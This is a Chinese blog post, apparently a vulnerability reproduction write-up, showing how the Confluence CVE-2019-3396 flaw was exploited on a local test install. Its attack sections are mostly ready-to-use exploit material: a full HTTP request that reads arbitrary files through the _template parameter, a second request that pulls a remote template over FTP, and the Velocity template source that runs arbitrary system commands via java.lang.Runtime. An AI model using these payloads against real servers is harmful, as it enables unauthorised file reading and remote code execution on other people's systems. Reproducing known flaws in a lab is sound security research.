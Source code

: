 ```yaml
---
title: Confluence 未授权 RCE (CVE-2019-3396) 漏洞复现
date: 2019-4-10 23:22:39
categories: ftp
---
```

![文章开头](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/1.png)
### 前言
&nbsp;&nbsp;&nbsp;&nbsp;Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。
                                                                                                                 ----百度百科  
### 任意文件读取
&nbsp;&nbsp;&nbsp;&nbsp;昨天刚看到关于confluence的RCE就心里痒痒,想自己本地复现一下,因为公司在内网的话基本都有自己的wiki平台,这对以后的内网渗透也是挺有帮助的。所以就有了今天的文章。白天搬砖晚上终于有点时间干点自己喜欢的事情啦!  
&nbsp;&nbsp;&nbsp;&nbsp;第一步我们肯定要首先搭建confluence的本地环境,所以首先到[官网](https://www.atlassian.com/software/confluence/download-archives)上下载6.9.0版本。  
![下载](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/2.png)  
&nbsp;&nbsp;&nbsp;&nbsp;第二步开始安装,安装之后我们直接进入浏览器中进行初始化。这里有一个小插曲，我之前以为只有破解了才能呢使用，其实不是这样的，confluence官方给了我们了30天的免费时间，这个时间对我了做测试来说完全够了。我之前没搞清楚以为只有破解软件才能使用所以花了很长时间来破解这个软件，现在想想是非常无意义的，我们直接点击获得适用授权然后即使就是一直下一步下一步。  
![安装](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/3.png)  
![安装](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/4.png)  
&nbsp;&nbsp;&nbsp;&nbsp;第三步装完成之后我们创建一个话题，然后》其他宏》小工具连接器，之后按照提示输入相关的信息。  
![话题](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/5.png)  
![话题](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/6.png)  
&nbsp;&nbsp;&nbsp;&nbsp;第四步点击编辑然后用burp suite抓取数据包  
![抓取数据包](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/7.png)    
&nbsp;&nbsp;&nbsp;&nbsp;第五步添加```"_template":"file:///C:\Windows\win.ini"```参数  
![添加参数](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/8.png)  
&nbsp;&nbsp;&nbsp;&nbsp;第六步run如果结果发现可以读取win.ini文件则说明读取任意文件成功  
![结果](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/9.png)  

```
完整POC
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8090/pages/editpage.action?pageId=65608
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 257
Connection: close
Cookie: seraph.confluence=491522%3A4f60bb76841790e32509c6797835fc7d63038727; JSESSIONID=A5DA96C0FCF2E9CA0942821B2B94FFC1

{"contentId":"65608","macro":{"name":"widget","body":"","params":{"url":"https://youtube.com/watch?v=v5LxrcXiguE&list=PL6gx4Cwl9DGBmwvjJoWhM4Lg5MceSbsja&index=4","width":"400","height":"400","_template":"file:///C:\Windows\win.ini"}}}
```
### 任意代码执行
&nbsp;&nbsp;&nbsp;&nbsp;我们在这里是通过远程文件包含要进行命令执行   
&nbsp;&nbsp;&nbsp;&nbsp;第一步我们用Python在本地开启一个ftp服务器并且将需要包含的文件放在本地ftp的服务器上  
```
python -m pyftpdlib -p 2121
```
&nbsp;&nbsp;&nbsp;&nbsp;第二步我们修改_template参数包含远程文件,然后run发现可以实现任意命令执行  
![结果](https://raw.githubusercontent.com/spacesec/images/master/blog/2019-4-10/10.png)  


```
完整POC
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8090/pages/editpage.action?pageId=65608
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 257
Connection: close
Cookie: seraph.confluence=491522%3A4f60bb76841790e32509c6797835fc7d63038727; JSESSIONID=A5DA96C0FCF2E9CA0942821B2B94FFC1

{"contentId":"65608","macro":{"name":"widget","body":"","params":{"url":"https://youtube.com/watch?v=v5LxrcXiguE&list=PL6gx4Cwl9DGBmwvjJoWhM4Lg5MceSbsja&index=4","width":"400","height":"400","_template":"ftp://localhost:2121/rce3.vm","command":"ipconfig"}}}

文件名:rec3.vm
#set ($exp="test")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```
